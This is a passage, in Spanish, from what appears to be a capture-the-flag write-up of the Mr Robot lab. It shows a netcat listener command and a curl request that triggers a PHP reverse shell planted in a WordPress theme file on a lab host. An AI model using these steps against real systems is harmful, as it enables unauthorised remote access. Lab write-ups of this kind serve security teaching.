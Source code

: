 <p align="center">    
 <img src="/assets/images/mrrobot/06wp1.png">     
</p>   

Con estos pasos vamos a generar una reverse shell en php para cargarla y después ejecutarla en la máquina, todo esto mientras estamos en escucha por con la utilidad `nc`.

```bash
❯ nc -lvnp 5555
```

Luego hacemos la petición del recurso que contiene la reverse shell.

```bash
❯ curl -s "http://10.10.235.157/wp-content/themes/twentyfifteen/archive.php"
```

<p align="center">  
 <img src="/assets/images/mrrobot/07reverse.png">    
</p>  
